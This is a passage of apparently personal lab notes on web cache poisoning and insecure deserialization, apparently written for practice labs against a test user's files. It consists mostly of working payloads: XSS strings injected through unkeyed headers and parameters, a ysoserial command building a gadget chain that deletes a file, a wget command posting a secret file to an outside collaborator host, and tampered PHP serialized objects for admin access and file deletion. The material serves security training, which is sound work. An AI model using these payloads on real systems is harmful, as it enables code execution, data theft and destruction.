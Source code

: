 GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```
5. Web cache poisoning via an unkeyed query string  
```
/?search=kek'/><script>alert(1)</script>
Origin:x
```
6. Web cache poisoning via an unkeyed query parameter  
```
/?utm_content=123'/><script>alert(1)</script>
```
7. Parameter cloaking
```
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
```
8. Web cache poisoning via a fat GET request
```
GET /js/geolocate.js?callback=setCountryCookie
Body:
callback=alert(1)
```
9. URL normalization  
```
/random"><script>alert(1)</script>
Cache this path and then deliver URL to the victim
```
## Insecure deserialization
Use Java Deserialization Scanner extension for Burp Suite to detect type of serialized object.  
Use ysoserial and phpggc  
```
java -jar --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w0 | xclip -selection clipboard
```
```
export JAVA_HOME="/usr/lib/jvm/java-11-openjdk-amd64"
export PATH="${JAVA_HOME}/bin:{$PATH}"
```
Exfiltrate data:
```
wget --post-file /home/carlos/secret c2ft9nahenbthexwc6hd0c9m4da3ys.burpcollaborator.net
```

### Exploits
1. Modifying serialized data types
```
1. Change username to administrator (13 symbols)
2. Change parameter access_token from s to i as follows:
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```
2. Using application functionality to exploit insecure deserialization
```
1. Delete additional user.
2. For the POST /my-account/delete request change deserialized session cookie to:
s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
3. Send it.
```
3. Arbitrary object injection in PHP
```
1. Check for /libs/CustomTemplate.php~
2. Find out destruct() method
3. Create next payload:
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```
```